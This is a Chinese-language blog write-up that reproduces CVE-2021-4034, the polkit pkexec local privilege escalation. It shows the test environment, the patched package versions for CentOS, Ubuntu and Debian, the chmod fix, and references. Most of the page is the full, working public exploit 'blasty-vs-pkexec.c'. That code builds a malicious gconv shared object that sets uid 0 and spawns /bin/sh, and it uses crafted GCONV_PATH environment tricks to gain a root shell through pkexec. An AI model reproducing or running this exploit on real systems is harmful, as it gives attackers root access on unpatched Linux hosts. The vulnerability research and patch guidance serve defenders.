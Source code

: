 ```yaml
---
layout: about
category: about
Researchname: Polkit-CVE-2021-4034复现
permalink: /about/polkit-CVE-2021-4034/
author: Bin4xin
toc: true
desc: 「polkit」
---
```


> 2022-01-25，CVE-2021-4034利用详情发布。
> 
> 该漏洞是Qualys研究团队在polkit的pkexec中发现的一个内存损坏漏洞，允许非特权用户获取root权限。

## 影响版本

[不影响版本](#%E4%BF%AE%E5%A4%8D)

### 复现环境

```bash
$ uname -a
Linux ubuntu 5.8.0-55-generic #62~20.04.1-Ubuntu SMP Wed Jun 2 08:55:04 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux

$ pkexec --version
pkexec version 0.105
```

### 结果

![Feb-09-2022-16-01-18.gif]({{site.PicturesLinks_Domain}}/images/2022/02/09/Feb-09-2022-16-01-18.gif)
![Feb-09-2022-16-01-18.gif]({{site.PicturesLinks_Domain}}/images/2022/02/09/Feb-09-2022-16-01-18.gif)

## EXP[来源](https://haxx.in/files/blasty-vs-pkexec.c)

```cpp
/*
 * blasty-vs-pkexec.c -- by blasty <peter@haxx.in> 
 * ------------------------------------------------
 * PoC for CVE-2021-4034, shout out to Qualys
 *
 * ctf quality exploit
 *
 * bla bla irresponsible disclosure
 *
 * -- blasty // 2022-01-25
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <fcntl.h>

void fatal(char *f) {
    perror(f);
    exit(-1);
}

void compile_so() {
    FILE *f = fopen("payload.c", "wb");
    if (f == NULL) {
        fatal("fopen");
    }

    char so_code[]=
        "#include <stdio.h>\n"
        "#include <stdlib.h>\n"
        "#include <unistd.h>\n"
        "void gconv() {\n"
        "  return;\n"
        "}\n"
        "void gconv_init() {\n"
        "  setuid(0); seteuid(0); setgid(0); setegid(0);\n"
        "  static char *a_argv[] = { \"sh\", NULL };\n"
        "  static char *a_envp[] = { \"PATH=/bin:/usr/bin:/sbin\", NULL };\n"
        "  execve(\"/bin/sh\", a_argv, a_envp);\n"
        "  exit(0);\n"
        "}\n";

    fwrite(so_code, strlen(so_code), 1, f);
    fclose(f);

    system("gcc -o payload.so -shared -fPIC payload.c");
}

int main(int argc, char *argv[]) {
    struct stat st;
    char *a_argv[]={ NULL };
    char *a_envp[]={
        "lol",
        "PATH=GCONV_PATH=.",
        "LC_MESSAGES=en_US.UTF-8",
        "XAUTHORITY=../LOL",
        "GIO_USE_VFS=",
        NULL
    };

    printf("[~] compile helper..\n");
    compile_so();

    if (stat("GCONV_PATH=.", &st) < 0) {
        if(mkdir("GCONV_PATH=.", 0777) < 0) {
            fatal("mkdir");
        }
        int fd = open("GCONV_PATH=./lol", O_CREAT|O_RDWR, 0777); 
        if (fd < 0) {
            fatal("open");
        }
        close(fd);
    }

    if (stat("lol", &st) < 0) {
        if(mkdir("lol", 0777) < 0) {
            fatal("mkdir");
        }
        FILE *fp = fopen("lol/gconv-modules", "wb");
        if(fp == NULL) {
            fatal("fopen");
        }
        fprintf(fp, "module  UTF-8//    INTERNAL    ../payload    2\n");
        fclose(fp);
    }

    printf("[~] maybe get shell now?\n");

    execve("/usr/bin/pkexec", a_argv, a_envp);
}
```

### 修复

```bash
chmod 0755 /usr/bin/pkexec
```
或 升级至不影响版本 
```
========================================================================
CentOS：

CentOS 6：polkit-0.96-11.el6_10.2
CentOS 7：polkit-0.112-26.el7_9.1
CentOS 8.0：polkit-0.115-13.el8_5.1
CentOS 8.2：polkit-0.115-11.el8_2.2
CentOS 8.4：polkit-0.115-11.el8_4.2
========================================================================
Ubuntu：

Ubuntu 14.04 ESM：policykit-1-0.105-4ubuntu3.14.04.6+esm1
Ubuntu 16.04 ESM：policykit-1-0.105-14.1ubuntu0.5+esm1
Ubuntu 18.04 LTS：policykit-1-0.105-20ubuntu0.18.04.6
Ubuntu 20.04 LTS：policykit-1-0.105-26ubuntu1.2
Ubuntu 21.10：policykit-1-0.105-31ubuntu0.1
========================================================================
Debain：

：policykit-1 0.105-18+deb9u2
Debain stretch：policykit-1 0.105-18+deb9u2
Debain buster：policykit-1 0.105-25+deb10u1
Debain bullseye：policykit-1 0.105-31+deb11u1
Debain bookworm,bullseye：policykit-1 0.105-31.1
========================================================================
```

### 参考

- [pwnkit: Local Privilege Escalation in polkit's pkexec (CVE-2021-4034)](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt){:target="_blank"}
- [CVE-2021-4034 pkexec提权漏洞分析](https://saucer-man.com/information_security/876.html#cl-3){:target="_blank"}
- [Linux polkit权限提升漏洞修复方法（CVE-2021-4034）](https://moneyslow.com/linux-polket%E6%9D%83%E9%99%90%E6%8F%90%E5%8D%87%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D%E6%96%B9%E6%B3%95%EF%BC%88cve-2021-4034%EF%BC%89.html){:target="_blank"}

以上。